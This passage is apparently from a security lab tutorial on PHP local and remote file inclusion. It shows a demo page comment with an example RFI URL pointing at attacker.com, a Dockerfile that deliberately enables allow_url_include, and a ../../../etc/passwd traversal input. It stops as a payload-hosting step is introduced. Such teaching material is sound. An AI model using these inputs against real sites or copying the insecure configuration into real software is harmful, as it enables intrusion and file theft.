 ```php
    <!-- Normal page content -->
    <div style="border: 1px solid #ccc; padding: 20px; margin: 20px;">
        <h2>About Us</h2>
        <p>We're a demo company showing PHP security concepts.</p>
    </div>

    <!-- Hidden RFI trigger (could also be in URL parameters) -->
    <!-- Normally this would be a dynamic module loader in real applications -->
    <!-- Example vulnerable URL: ?page=http://attacker.com/malicious.txt -->
</body>
</html>
```

We can also set this up using docker with a `php` image like below

```Dockerfile
#latest PHP image

FROM php:8.2-apache

## PDO
RUN apt-get update && apt-get install -y busybox python3
#RUN docker-php-ext-install pdo pdo_pgsql

## Apache mod_rewrite

#RUN a2enmod rewrite

RUN echo "allow_url_include=1" >> /usr/local/etc/php/php.ini && \
    echo "allow_url_fopen=1" >> /usr/local/etc/php/php.ini

COPY welcome.php /var/www/html/welcome.php
#COPY comment.php /var/www/html/comment.php

#WORKDIR /var/www/html

EXPOSE 80
```

![welcome.php](https://i.ibb.co/994TtXjX/image.png)


### Exploiting LFI

In our example we can add the `../../../etc/passwd` to prove that we can exploit local file inclusion in our local web application. 

![LFI](https://i.ibb.co/DDR1x2mH/image.png)

### Exploiting RFI 
To  demonstrate remote file inclusion, we can create a payload script that will allow us to execute system commands once it is included on the vulnerable server. Since `RFI` allows us to load remote files, we can host the payload on our own server and inject it into the vulnerable site.
